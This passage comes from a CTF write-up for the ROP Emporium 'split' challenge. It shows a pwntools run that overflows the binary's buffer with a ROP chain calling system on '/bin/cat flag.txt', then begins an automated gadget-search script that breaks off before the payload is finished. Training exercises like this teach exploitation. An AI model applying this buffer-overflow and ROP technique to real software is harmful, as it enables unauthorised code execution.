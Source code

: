 ```
$ python3 exploit.py
[+] Starting local process './split' argv=[b'./split'] : pid 2906
[DEBUG] Wrote gdb script to '/tmp/pwn34gi4d8x.gdb'
    b main
[*] running in new terminal: /usr/bin/gdb -q  "./split" 2906 -x /tmp/pwn34gi4d8x.gdb
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./split" 2906 -x /tmp/pwn34gi4d8x.gdb']
[+] Waiting for debugger: Done
[DEBUG] Received 0x4c bytes:
    b'split by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Contriving a reason to ask user for data...\n'
    b'> '
[DEBUG] Sent 0x41 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  c3 07 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  60 10 60 00  00 00 00 00  60 05 40 00  00 00 00 00  │`·`·│····│`·@·│····│
    00000040  0a                                                  │·│
    00000041
[*] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
[DEBUG] Received 0x21 bytes:
    b'ROPE{a_placeholder_32byte_flag!}\n'
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

And it looks like the flag is `ROPE{a_placeholder_32byte_flag!}`!

## Automating the Exploit

For the exploit above, we searched for all the ROP gadgets manually. This process can be automated with `pwntools`, so we can modify the exploit like the following:

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './split'

# Start the process
io = process(PROCESS)

# Search for ROP gadgets
rop = ROP(io.elf)
pop_rdi_ret = p64(rop.search(move=0,regs=['rdi']).address)
cat_flag = p64(next(io.elf.search(b"/bin/cat flag.txt")))
system = p64(io.elf.symbols['system'])

# Build the ROP chain
rop.raw(pop_rdi_ret)
rop.raw(cat_flag)
rop.raw(system)
info(rop.dump())

# Build the payload
```